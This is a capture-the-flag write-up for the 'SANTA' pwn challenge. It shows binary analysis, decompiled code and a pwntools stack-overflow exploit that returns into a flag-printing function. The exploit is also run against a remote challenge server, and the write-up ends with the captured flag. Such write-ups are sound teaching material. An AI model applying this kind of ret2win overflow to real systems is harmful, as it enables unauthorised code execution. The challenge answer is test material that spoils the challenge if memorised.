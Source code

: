 # SANTA

Challenge author: tomadimitrie

Tell your wish to Santa... it might come true

## Analysis

In this challenge we were given an ELF-64bit named `zoom2win` with no canary, NX enabled, and no PIE.

```
$ file santa; checksec santa  
santa: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=2879273bfbd6a37bf2fb59b81093e32888d50e5c, not stripped
[*] '/home/kali/Documents/TFC CTF/santa'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Let's try to run it

```
$ ./santa 
What are you wishing for?

chicken nugget

```

It seems that the program doesn't do anything. Let's open the program using ida to see what the source code looks like.

#### main function
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v4; // [rsp+0h] [rbp-30h]
  __int64 v5; // [rsp+8h] [rbp-28h]
  __int64 v6; // [rsp+10h] [rbp-20h]
  __int64 v7; // [rsp+18h] [rbp-18h]
  __int64 v8; // [rsp+20h] [rbp-10h]

  setvbuf(_bss_start, 0LL, 2, 0LL);
  puts("What are you wishing for?\n");
  v4 = 0LL;
  v5 = 0LL;
  v6 = 0LL;
  v7 = 0LL;
  v8 = 0LL;
  __isoc99_scanf("%s", &v4);
  return 0;
}
```

From the source code, there is another function that caught my eyes. It's a `flag` function. Let's take a look.

#### flag
```c
int flag()
{
  return system("cat flag");
}
```

From the main function, it seems that we need to overflow the input and jump into the `flag` function.

First, we could use gdb to create a pattern.
```
$ gdb -q ./santa
Reading symbols from ./santa...
(No debugging symbols found in ./santa)
gdb-peda$ pattern create 64
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH'
```

Next, run the program and send the pattern.
```
gdb-peda$ r
Starting program: /home/kali/Documents/TFC CTF/santa 
What are you wishing for?

AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH

Program received signal SIGSEGV, Segmentation fault.
```

From the output above, we can determine which part of our pattern is hitting the return in the main function by examining the `$rsp`.
```
gdb-peda$ x/gx $rsp
0x7fffffffdf68: 0x4841413241416341
gdb-peda$ pattern offset 0x4841413241416341
5206514328315978561 found at offset: 56
```

Nice, we got the offset/padding. Now we need to know the address of `flag` function.
```
gdb-peda$ info func
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401030  puts@plt
0x0000000000401040  system@plt
0x0000000000401050  setvbuf@plt
0x0000000000401060  __isoc99_scanf@plt
0x0000000000401070  _start
0x00000000004010a0  _dl_relocate_static_pie
0x00000000004010b0  deregister_tm_clones
0x00000000004010e0  register_tm_clones
0x0000000000401120  __do_global_dtors_aux
0x0000000000401150  frame_dummy
0x0000000000401152  flag
0x0000000000401165  main
0x00000000004011e0  __libc_csu_init
0x0000000000401240  __libc_csu_fini
0x0000000000401244  _fini
```

Lastly, we need to get the return address. So when we overwrite the stack, we could change the instruction to return to flag function. To get the return address, we could use ROPgadget.
```
$ ROPgadget --binary santa | grep "ret"
0x0000000000401099 : add ah, dh ; nop dword ptr [rax + rax] ; ret
0x00000000004010cb : add bh, bh ; loopne 0x401135 ; nop ; ret
0x00000000004011d8 : add byte ptr [rax], al ; add byte ptr [rax], al ; leave ; ret
0x00000000004011d9 : add byte ptr [rax], al ; add cl, cl ; ret
0x0000000000401098 : add byte ptr [rax], al ; hlt ; nop dword ptr [rax + rax] ; ret
0x00000000004011da : add byte ptr [rax], al ; leave ; ret
0x000000000040109e : add byte ptr [rax], al ; ret
0x000000000040109d : add byte ptr [rax], r8b ; ret
0x0000000000401137 : add byte ptr [rcx], al ; pop rbp ; ret
0x00000000004011db : add cl, cl ; ret
0x00000000004010ca : add dil, dil ; loopne 0x401135 ; nop ; ret
0x0000000000401138 : add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret
0x0000000000401013 : add esp, 8 ; ret
0x0000000000401012 : add rsp, 8 ; ret
0x0000000000401224 : fmul qword ptr [rax - 0x7d] ; ret
0x000000000040109a : hlt ; nop dword ptr [rax + rax] ; ret
0x00000000004011dc : leave ; ret
0x00000000004010cd : loopne 0x401135 ; nop ; ret
0x0000000000401132 : mov byte ptr [rip + 0x2f17], 1 ; pop rbp ; ret
0x00000000004011d7 : mov eax, 0 ; leave ; ret
0x0000000000401162 : nop ; pop rbp ; ret
0x00000000004010cf : nop ; ret
0x000000000040109b : nop dword ptr [rax + rax] ; ret
0x000000000040123d : nop dword ptr [rax] ; ret
0x0000000000401234 : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401236 : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401238 : pop r14 ; pop r15 ; ret
0x000000000040123a : pop r15 ; ret
0x0000000000401233 : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401237 : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000401139 : pop rbp ; ret
0x000000000040123b : pop rdi ; ret
0x0000000000401239 : pop rsi ; pop r15 ; ret
0x0000000000401235 : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401016 : ret
0x0000000000401062 : retf 0x2f
0x000000000040100d : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x0000000000401245 : sub esp, 8 ; add rsp, 8 ; ret
0x0000000000401244 : sub rsp, 8 ; add rsp, 8 ; ret

```

From the ROPgadget, we only need the one that holds the information of "ret" and the ret address is `0x0000000000401016`

## Exploit

Let's make a solver using python
```python
from pwn import *

offset = 56
flag = 0x0000000000401152
ret = 0x0000000000401016

payload = b""
payload += b"A"*offset
payload += p64(ret)
payload += p64(flag)

s = process("./santa")

print(s.recvline().decode())
s.sendline(payload)
print(s.recvall().decode())

s.close()
```

Now we need to do is just run the program to make sure it works!

![](santa_local.png)

Since it works, lets test on remote server by adding host, port and replacing `s = process("./santa")` to `s = remote(host, port)`
```python
from pwn import *

offset = 56
flag = 0x0000000000401152
ret = 0x0000000000401016

payload = b""
payload += b"A"*offset
payload += p64(ret)
payload += p64(flag)

host = "34.65.54.58"
port = 1340

s = remote(host, port)

print(s.recvline().decode())
s.sendline(payload)
print(s.recvall().decode())

s.close()
```

Now all we need to do is just run the program!
![](santa.png)

Flag: `TFCCTF{A11_I_w4nt_4_Chr15tm4s_i5_y0uuuu}`
